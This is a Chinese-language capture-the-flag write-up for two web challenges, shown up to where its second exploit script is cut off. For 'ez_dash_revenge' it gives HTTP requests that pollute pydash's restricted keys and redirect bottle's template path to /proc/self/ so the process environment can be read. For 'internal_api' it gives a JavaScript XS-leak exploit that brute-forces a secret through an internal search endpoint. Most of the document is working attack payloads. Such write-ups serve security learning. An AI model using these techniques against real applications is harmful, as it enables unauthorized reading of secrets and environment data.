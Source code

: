 ### ez_dash_revenge

首先污染掉pydash的helpers.RESTRICTED_KEYS，不然拿不到__globals__

> POST /setValue?name=pydash HTTP/1.1
>
> {
>
> "path": "helpers.RESTRICTED_KEYS",
>
> "value": "123"
>
> }

然后setval找globals找bottle。改templete的路径，加一个/proc/self

> POST /setValue?name=setval HTTP/1.1
>
> {
>
> "path": "__globals__.bottle.TEMPLATE_PATH",
>
> "value": ["./","./views/",
>
> 	"/proc/self/"
>
> ]
>
> }

随后直接render?path=environ即可

### internal_api

XS_leak，通过请求码来泄露。

exp：

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Error-Based Attack</title>
</head>

<body>
    <script>
        let currentFlag = "nctf{";
        const chars = "abcdef0123456789-{}";

        function sleep(ms) {
            return new Promise(resolve => setTimeout(resolve, ms));
        }

        function checkCharacter(char) {
            return new Promise((resolve) => {
                let script = document.createElement('script');
                script.src = `http://0.0.0.0:8000/internal/search?s=${currentFlag}${char}`;

                script.onload = () => {
                    document.head.removeChild(script);
                    resolve(true);
                };
```